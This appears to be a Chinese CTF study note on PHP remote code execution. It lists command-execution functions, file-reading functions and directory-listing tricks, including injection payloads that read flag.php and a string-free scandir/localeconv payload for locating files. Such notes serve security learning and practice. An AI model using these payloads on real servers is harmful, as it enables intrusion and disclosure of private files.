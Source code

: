 [toc]

# RCE

## 命令执行方式总结

php中可以用来命令执行的函数：

```php
system()
passthru()
exec();
shellexec();
popen();
proc_open();
pcntl_exec();
反引号``，同shell_exec();
// 使用时注意有无回显
```

php中读文件的函数：

```php
show_source();
highlight_file();
file_get_contents(); // 本身不显示，返回值是文件内容
readfile(); // 本身具有打印功能
file(); // 本身不具有打印功能，返回值是文件内容按行排列成为的数组
copy(); // copy("flag.php", "flag.txt")
rename(); // rename("flag.php", "flag.txt")
include(); // 文件不存在时 警告
require(); // 文件不存在时 错误
require_once(); // 同上，但是假如包含过这个文件，不会再次包含
fread(); 
fgets();
fgetc();
fgetss(); // 和fgets()类似，但去掉html和php标记
fgetcsv(); // 每一行都是数组，因此不用echo打印即可
fpassthru();
$a = fopen("flag.php", "r");echo fread($a, 1000);
$a = fopen("flag.php", "r");while(!feof($a)){$line = fgets($a); echo $line;}
$a = fopen("flag.php", "r");while(!feof($a)){$line = fgetc($a); echo $line;}
$a = fopen("flag.php", "r");while(!feof($a)){$line = fgetcsv($a); print_r($line);}
$a = fopen("flag.php", "r");echo fpassthru($a);
```

php中查文件所在位置：

```php
scandir();
print_r(scandir("/var/www/html/"));
print_r(scandir(dirname("__FILE__")));
print_r(scandir(current(localeconv())));
// 不用字符串查指定文件
highlight_file(next(array_reverse(scandir(current(localeconv())))));
// next、current、end分别是第二个元素、第一个元素、最后一个元素
opendir();
$a = opendir("/"); while(($file=readdir($a))!=false){echo $file."\n";}
// 遍历文件
$a = new DirectoryIterator('glob:///*'); // 根目录
$a = new DirectoryIterator('glob:///var/*') // var目录下
foreach($a as $f){echo $f->__toString()." ";}
//或者：
$a = 'glob:///*';
$f = opendir($a);
```